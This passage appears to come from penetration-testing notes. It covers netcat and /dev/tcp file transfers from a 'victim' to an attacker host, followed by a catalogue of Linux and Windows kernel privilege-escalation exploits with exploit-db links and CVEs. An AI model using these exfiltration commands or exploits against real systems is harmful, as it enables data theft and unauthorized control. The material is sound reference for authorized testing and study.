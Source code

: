 On Windows:
```
# paste
```

### `nc.exe`
Requires `nc.exe` to be already transferred. Allows for two-way transfers.
```cmd
C:\nc.exe -lvp 4444 > [file] # on Windows
nc [windows ip] 4444 < [file] # on Kali
```
Vice versa.

### Linux Dev TCP
```
cat file.txt > /dev/tcp/192.168.1.23/4444 # on victim linux
nc -lvp 4444 > file.txt # on Kali
```

# Privilege Escalation

## Kernel Exploits

### Linux Kernel Exploits
* Linux Kernel 2.6.39 - 3.2.2 (Gentoo / Ubuntu x86/x64) - 'Mempodipper' Local Privilege Escalation:
  * https://www.exploit-db.com/exploits/18411/
  * https://www.securityfocus.com/bid/51625/info
  * CVE-2012-0056
* Linux Kernel 2.6.22 - 3.9 (x86/x64) - 'Dirty COW /proc/self/mem' Race Condition Privilege Escalation (SUID Method):
  * https://www.exploit-db.com/exploits/40616/
  * CVE-2016-5195
* Linux Kernel 2.2.x/2.4.x (RedHat) - 'ptrace/kmod' Local Privilege Escalation
  * https://www.exploit-db.com/exploits/3/
  * http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c 
  * CVE-2003-0127
* Linux Kernel 2.6 (Debian 4.0 / Ubuntu / Gentoo) UDEV below 1.4.1 - Local Privilege Escalation (1)
  * https://www.exploit-db.com/exploits/8478/
  * `exploit/linux/local/udev_netlink`

Tools:
* https://github.com/sleventyeleven/linuxprivchecker
* https://github.com/InteliSecureLabs/Linux_Exploit_Suggester
* https://github.com/jondonas/linux-exploit-suggester-2

### Windows Kernel Exploits

#### PoC Exploits
* 'afd.sys' Local Privilege Escalation
  * Microsoft Windows (x86) - 'afd.sys' Local Privilege Escalation (MS11-046)
    * https://www.exploit-db.com/exploits/40564/
    * Windows XP, 2003, 7, 2008, Vista
  * Microsoft Windows XP/2003 - 'afd.sys' Local Privilege Escalation (MS11-080)
    * https://www.exploit-db.com/exploits/18176/
    * CVE-2011-2005
  * And a lot more
* KiTrap0D/vdmallowed.exe
  * https://www.exploit-db.com/exploits/11199/
  * Upload both `vdmallowed.exe` and `vdexploit.dll`. May only work on GUI.
  * CVE-2010-0232
* RID Hijacking (Metasploit)
  * https://www.rapid7.com/db/modules/post/windows/manage/rid_hijack